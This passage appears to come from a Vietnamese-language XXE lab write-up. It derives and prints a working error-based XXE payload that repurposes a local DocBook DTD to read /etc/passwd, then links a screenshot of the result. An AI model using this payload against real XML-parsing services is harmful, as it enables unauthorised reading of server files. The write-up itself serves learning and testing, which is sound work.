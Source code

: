 Từ format trên chúng ta có thể suy ra được payload cần thiết như sau : 
```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///hellomotherfucker/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```



![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_local_catfile.png?raw=true)




